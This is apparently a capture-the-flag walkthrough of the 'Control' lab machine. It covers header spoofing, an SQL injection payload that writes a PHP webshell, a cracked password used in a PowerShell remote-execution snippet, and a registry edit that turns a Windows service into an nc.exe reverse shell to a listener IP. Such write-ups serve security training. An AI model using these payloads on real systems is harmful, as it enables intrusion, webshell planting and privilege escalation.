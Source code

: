 # Control

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (164) (4).png" alt=""><figcaption></figcaption></figure>

### X-Forwaded-For Bypass

Using `gobuster` we can find the directories:

<figure><img src="../../../.gitbook/assets/image (15) (1) (7).png" alt=""><figcaption></figcaption></figure>

When trying to access the `admin.php` page, we get this error:

<figure><img src="../../../.gitbook/assets/image (41) (2) (2).png" alt=""><figcaption></figcaption></figure>

Perhaps we can spoof the `X-Forwarded-For` header using an IP address. When checking the page sources of multiple pages, we can find this:

<figure><img src="../../../.gitbook/assets/image (120) (2).png" alt=""><figcaption></figcaption></figure>

Appending the `X-Forwarded-For: 192.168.4.28` header, we can access the `admin.php` page.

### SQL Injection for Webshell

Within the `admin.php` page, we can find that there is an application that is able to search for products.

<figure><img src="../../../.gitbook/assets/image (10) (1) (6).png" alt=""><figcaption></figcaption></figure>

We can attempt SQL Injection easily and confirm there is an unsanitsed input being passed.

<figure><img src="../../../.gitbook/assets/image (1) (9).png" alt=""><figcaption></figcaption></figure>

With this, I attempted UNION Injection to find out how many columns there were. In total, there were 6.

We can write a webshell into the normal working webroot directory:

```sql
\' UNION SELECT '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 INTO OUTFILE 'C:\inetpub\wwwroot\shell.php'#
```

Then, we can check for RCE:

<figure><img src="../../../.gitbook/assets/image (39) (4).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (131) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MariaDB Credentials

Within the machine, we can find the other users that were present:

<figure><img src="../../../.gitbook/assets/image (27) (5).png" alt=""><figcaption></figcaption></figure>

So we are looking for credentials for Hector. Understanding that there was a MariaDB instance running on the machine, I checked the files that were related to that first.&#x20;

Within the `C:\MariaDB\mysql` folder, we can find hashes for a user:

<figure><img src="../../../.gitbook/assets/image (121) (1).png" alt=""><figcaption></figcaption></figure>

Alternatively, we could use the SQL Injection vulnerability to dump these credentials out. Anyways, we would find a hash for the Hector user. His hash can be cracked on CrackStation to give `l33th4x0rhector`.

Enumerating the privileges that Hector has, we also see that he's part of the Remote Management Group:

<figure><img src="../../../.gitbook/assets/image (4) (5) (3).png" alt=""><figcaption></figcaption></figure>

This means that we can remotely access Hector's account over WinRM. Since there was no WinRM port available for me to use `evil-winrm`, I opted for Remote Powershelling.

```powershell
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CONTROL\Hector",$pass)
Invoke-Command -Computing localhost -ScriptBlock { whoami } -Credential $cred
```

We can use this to execute `nc.exe` to give us another reverse shell as Hector.

<figure><img src="../../../.gitbook/assets/image (3) (7).png" alt=""><figcaption></figcaption></figure>

### Powershell History

This part was a tad tricky. I ran a WinPEAS and it picked up on the Powershell history for Hector.

<figure><img src="../../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>

When running these commands, I get a load of text that I don't really understand:

<figure><img src="../../../.gitbook/assets/image (19) (4) (2).png" alt=""><figcaption></figcaption></figure>

Perhaps this was a clue to look into the ACLs and permissions Hector has.

### Service Registry Permissions

Picking up on the rest of WinPEAS output, we see that Hector has FullControl permissions over loads of services.

<figure><img src="../../../.gitbook/assets/image (26) (5).png" alt=""><figcaption></figcaption></figure>

FullControl permissions can be abused for forms of DLL Hijacking, or changing certain properties to execute scripts or files of our choosing.&#x20;

To exploit this, we need to find a service that satisfies 3 conditions:

* Is not started by default, and we need to manually start it
* Have FullControl permissions over it to alter its properties to execute scripts
* Run by `LocalSystem` to ensure that we run our scripts as the SYSTEM user.

I began enumeration for services that I could restart. I found a resource here that told us what specific permissions we needed:

{% embed url="http://woshub.com/set-permissions-on-windows-service/" %}

```
CC — SERVICE_QUERY_CONFIG (request service settings)
LC — SERVICE_QUERY_STATUS (service status polling)
SW — SERVICE_ENUMERATE_DEPENDENTS
LO — SERVICE_INTERROGATE
CR — SERVICE_USER_DEFINED_CONTROL
RC — READ_CONTROL
RP — SERVICE_START
WP — SERVICE_STOP
DT — SERVICE_PAUSE_CONTINUE
```

In this case, we need the `RP` permission to restart a service. To check whether a service is run by `LocalSystem`, we would have to refer to the `SERVICE_START_NAME` variable when using `sc.exe` to query the service. Lastly, we can refer to this table for the values of the `START_TYPE` variable to find a service that is started manually (3 is the value we are looking for):

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

When looking through the services that Hector had FullControl permissions over (via WinPEAS output), we find this one:

<figure><img src="../../../.gitbook/assets/image (127) (2).png" alt=""><figcaption></figcaption></figure>

This service certainly fits the conditions needed. We can use `sc.exe config` to modify the `binpath` variable to give us a reverse shell. However, the `sc.exe` method lept failing.

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

I tried the Powershell `Set-ItemProperty` method, and it worked better:

```powershell
Set-ItemProperty -path HKLM:\System\CurrentControlSet\services\wuauserv -name ImagePath -value "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.16.9 6666"
```

Afterwards, we can start the service and get a shell as the administrator. (I don't have screenshots of the administrator shell D:)
